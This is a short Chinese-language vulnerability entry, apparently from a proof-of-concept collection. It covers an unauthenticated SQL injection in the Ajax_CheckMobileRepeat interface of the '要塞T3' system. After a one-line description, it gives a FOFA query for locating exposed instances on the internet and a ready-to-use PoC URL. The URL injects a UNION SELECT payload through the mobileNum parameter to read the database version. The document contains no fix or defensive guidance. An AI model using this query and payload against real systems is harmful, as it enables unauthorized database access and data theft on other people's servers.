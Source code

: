 # 要塞T3系统接口Ajax_CheckMobileRepeat存在SQL注入漏洞

要塞T3系统接口Ajax_CheckMobileRepeat存在SQL注入漏洞，未经身份验证的攻击者通过漏洞执行任意SQL语句。

## fofa

```javascript
body="/mlogin.htm?url=" || body="T3/MAIN/Login.aspx"
```

## poc

```javascript
http://ip/T3/Ajax/Ajax_CheckMobileRepeat.ashx?action=checkmobilerepeat&mobileNum=1%27%20UNION%20ALL%20SELECT%20NULL%2C%28SELECT%20%40%40version%29--%20aEdt
```
